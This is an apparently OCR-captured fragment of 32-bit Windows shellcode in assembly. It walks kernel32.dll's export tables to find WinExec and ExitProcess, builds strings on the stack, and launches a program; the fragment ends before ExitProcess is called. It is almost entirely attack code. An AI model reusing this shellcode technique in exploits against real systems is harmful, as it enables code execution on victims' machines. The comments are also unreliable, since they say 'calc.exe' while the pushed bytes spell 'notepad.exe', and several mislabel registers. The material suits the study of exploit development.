 ```
jmp short functions

findFunctionAddr:
; Initialize the Counter to prevent infinite loop
 xor eax, eax            ; EAX = Counter = 0
 mov edx, [ebp-0x14]     ; get value of Number of Functions from stack-frame
; Loop through the NamePointerTable and compare our Strings to the Name Strings of kernel32.dll
searchLoop:
 mov edi, [ebp-0x8]      ; EDI = &NamePointerTable
 mov esi, [ebp+0x18]     ; ESI = Address of String for the Symbol we are searching for 
 xor ecx, ecx            ; ECX = 0x00000000
 cld                     ; clear direction flag - Process strings from left to right
 mov edi, [edi+eax*4]    ; EDI = RVA NameString      = [&NamePointerTable + (Counter * 4)]
 add edi, [ebp-0x4]      ; EDI = &NameString         = RVA NameString + &kernel32.dll
 add cx, 0x8             ; ECX = len("WinExec,0x00") = 8 = 7 char + 1 Null
 repe cmpsb              ; compare first 8 bytes of [&NameString] to "WinExec,0x00"
 jz found                ; If string at [&NameString] == "WinExec,0x00", then end loop
 inc eax                 ; else Counter ++
 cmp eax, edx            ; Does EAX == Number of Functions?
 jb searchLoop           ;   If EAX != Number of Functions, then restart the loop

found:
; Find the address of WinExec by using the last value of the Counter
 mov ecx, [ebp-0xC]      ; ECX = &OrdinalTable
 mov edx, [ebp-0x10]     ; EDX = &AddressTable
 mov ax,  [ecx + eax*2]  ;  AX = ordinalNumber   = [&OrdinalTable + (Counter*2)]
 mov eax, [edx + eax*4]  ; EAX = RVA WinExec     = [&AddressTable + ordinalNumber]
 add eax, [ebp-0x4]      ; EAX = &WinExec        = RVA WinExec + &kernel32.dll
 ret

functions:
; Create string 'WinExec\x00' on the stack and save its address to the stack-frame
 mov edx, 0x63657878     ; "cexx"
 shr edx, 8              ; Shifts edx register to the right 8 bits
 push edx                ; "\x00,cex"
 push 0x456E6957         ; EniW : 456E6957
 mov [ebp+0x18], esp     ; save address of string 'WinExec\x00' to the stack-frame
 call findFunctionAddr   ; After Return EAX will = &WinExec

; Call WinExec( CmdLine, ShowState );
;   CmdLine   = "calc.exe"
;   ShowState = 0x00000001 = SW_SHOWNORMAL - displays a window
 xor ecx, ecx          ; clear eax register
 push ecx              ; string terminator 0x00 for "calc.exe" string
 push 0x00657865       ; 0exe
 push 0x2e646170       ; .dap 
 push 0x65746F6E       ;eton:
 mov ebx, esp          ; save pointer to "calc.exe" string in eax
 inc ecx               ; uCmdShow SW_SHOWNORMAL = 0x00000001
 push ecx              ; uCmdShow  - push 0x1 to stack # 2nd argument
 push ebx              ; lpcmdLine - push string address stack # 1st argument
 call eax              ; Call the WinExec Function

; Create string 'ExitProcess\x00' on the stack and save its address to the stack-frame
 xor ecx, ecx          ; clear eax register
 mov ecx, 0x73736501     ; 73736501 = "sse",0x01 // "ExitProcess",0x0000 string
 shr ecx, 8              ; ecx = "ess",0x00 // shr shifts the register right 8 bits
 push ecx                ;  sse : 00737365
 push 0x636F7250         ; corP : 636F7250
 push 0x74697845         ; tixE : 74697845
 mov [ebp+0x18], esp     ; save address of string 'ExitProcess\x00' to stack-frame
 call findFunctionAddr   ; After Return EAX will = &ExitProcess

```
